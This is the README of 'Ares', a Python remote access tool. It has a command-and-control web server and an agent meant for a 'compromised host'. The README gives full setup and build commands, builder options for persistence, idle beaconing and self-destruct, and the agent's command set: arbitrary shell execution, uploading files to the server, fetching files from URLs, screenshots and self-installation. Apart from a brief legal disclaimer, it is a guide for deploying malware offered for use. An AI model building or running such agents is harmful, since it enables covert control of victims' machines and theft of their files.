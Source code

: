 # Ares (In progress)

Ares is a Python Remote Access Tool.

__Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.__

Ares is made of two main programs:

- A Command aNd Control server, which is a Web interface to administer the agents
- An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python. The agent can be compiled to native executables using **pyinstaller**.

## Setup

Install the Python requirements:

```
pip install -r requirements.txt
```

Initialize the database:

```
cd server
./ares.py initdb
```

In order to compile Windows agents on Linux, setup wine (optional):

```
./wine_setup.sh
```

## Server

Run with the builtin (debug) server:

```
./ares.py runserver -h 0.0.0.0 -p 8080 --threaded
```

Or run using gunicorn:

```
gunicorn ares:app -b 0.0.0.0:8080 --threads 20
```

The server should now be accessible on http://localhost:8080

## Agent

Run the Python agent (update config.py to suit your needs):

```
cd agent
./agent.py
```

Build a new agent to a standalone binary:

```
./builder.py -p Linux --server http://localhost:8080 -o agent
./agent
``` 

To see a list of supported options, run ./builder.py -h

```
./agent/builder.py -h
usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                  [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                  [--max_failed_connections MAX_FAILED_CONNECTIONS]
                  [--persistent]

Builds an Ares agent.

optional arguments:
  -h, --help            show this help message and exit
  -p PLATFORM, --platform PLATFORM
                        Target platform (Windows, Linux).
  --server SERVER       Address of the CnC server (e.g http://localhost:8080).
  -o OUTPUT, --output OUTPUT
                        Output file name.
  --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
  --idle_time IDLE_TIME
                        Inactivity time (in seconds) after which to go idle.
                        In idle mode, the agent pulls commands less often
                        (every <hello_interval> seconds).
  --max_failed_connections MAX_FAILED_CONNECTIONS
                        The agent will self destruct if no contact with the
                        CnC can be made <max_failed_connections> times in a
                        row.
  --persistent          Automatically install the agent on first run.
```

### Supported agent commands

```
<any shell command>
Executes the command in a shell and return its output.

upload <local_file>
Uploads <local_file> to server.

download <url> <destination>
Downloads a file through HTTP(S).

zip <archive_name> <folder>
Creates a zip archive of the folder.

screenshot
Takes a screenshot.

python <command|file>
Runs a Python command or local file.

persist
Installs the agent.

clean
Uninstalls the agent.

exit
Kills the agent.

help
This help.
```
